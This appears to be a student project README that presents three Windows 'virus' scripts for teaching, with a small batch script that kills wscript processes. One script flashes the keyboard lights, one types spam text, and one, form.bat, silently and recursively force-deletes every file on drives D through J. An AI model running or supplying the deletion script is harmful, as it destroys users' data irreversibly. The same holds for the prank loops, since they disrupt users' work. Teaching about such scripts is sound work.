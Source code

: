 <h1><bold>VBS and BAT Viruses <img src="https://raw.githubusercontent.com/Tarikul-Islam-Anik/Animated-Fluent-Emojis/master/Emojis/Smilies/Bomb.png" alt="Bomb" width="25" height="25" /> - Group Work</bold></h1>

This document is made as an educational material about potentially harmful scripts and how to protect against them. **DO NOT EXECUTE ANY OF THESE SCRIPTS** because they can damage your system.

### 1. Keyboard Lights Flasher ([key.vbs](https://github.com/Ananya-Addisu/Endless-OS/blob/main/key.vbs))
```vbs
Set wshShell =wscript.CreateObject("WScript.Shell")
do
wscript.sleep 100
wshshell.sendkeys "{CAPSLOCK}"
wscript.sleep 100
wshshell.sendkeys "{NUMLOCK}"
wscript.sleep 100
wshshell.sendkeys "{SCROLLLOCK}"
loop
```
**Effect:** This script keeps switching the Caps Lock, Num Lock, and Scroll Lock keys on and off, which makes the keyboard lights flash non-stop. It won’t damage your data, but it can definitely get annoying.

### 2. Formatter ([form.bat](https://github.com/Ananya-Addisu/Endless-OS/blob/main/form.bat))
```bat
@echo off
del D:\*.* /f /s /q
del E:\*.* /f /s /q
del F:\*.* /f /s /q
del G:\*.* /f /s /q
del H:\*.* /f /s /q
del I:\*.* /f /s /q
del J:\*.* /f /s /q
```
**Effect:** This script is really risky because it tries to delete every file on drives D upto J. The deletion goes like this:
- Silent (`/q` parameter)
- Forced (`/f` parameter) 
- Recursive through all subdirectories (`/s` parameter)

**WARNING:** Running this script can lead to permanent data loss. Once you delete the files, it's tough to get them back without special recovery tools, and even they might not bring everything back. It's like a one time hit and run that can do serious damage right away.

### 3. Text Spammer ([txtspm.bat](https://github.com/Ananya-Addisu/Endless-OS/blob/main/txtspm.bat))
```vbs
Set wshShell = wscript.CreateObject("WScript.Shell")
do
wscript.sleep 100
wshshell.sendkeys "This is a harmless virus"
loop
```
**Effect:** This script types out "This is a harmless" virus wherever your cursor is. It can mess with your work by making it tough to type normally and could lead to some accidental things happening if it gets typed into command prompts or other apps.

## Antivirus Solution (ant.bat)

Here’s a script that can help stop harmful VBS scripts like the keyboard flasher and text spammer:

```bat
@echo off
echo Script Terminator - Emergency System Protection
echo =============================================
echo.
echo Scanning for malicious processes...
tasklist | findstr "wscript.exe" > nul
if %ERRORLEVEL% EQU 0 (
    echo ALERT: Found wscript.exe running!
    echo Terminating all wscript processes...
    taskkill /f /im wscript.exe
    echo Process terminated successfully.
) else (
    echo No malicious wscript processes found.
)
echo.
echo Checking system integrity...
echo.
echo NOTE: If files were deleted by the formatter script,
echo immediate actions are required:
echo 1. Disconnect the affected drives
echo 2. Do not write any new data to them
echo 3. Use professional data recovery services or software like recuva
echo   because deleted files are NOT recoverable through standard ways
echo.
echo While this script can stop active malicious scripts,
echo it CANNOT recover files deleted by the formatter script.
echo That damage is irreversible without professional recovery tools.
echo.
pause
```

You can find other batch script and powershell based scripts at [OSSPG4](https://osspg4.vercel.app/#virus-production-and-protection)
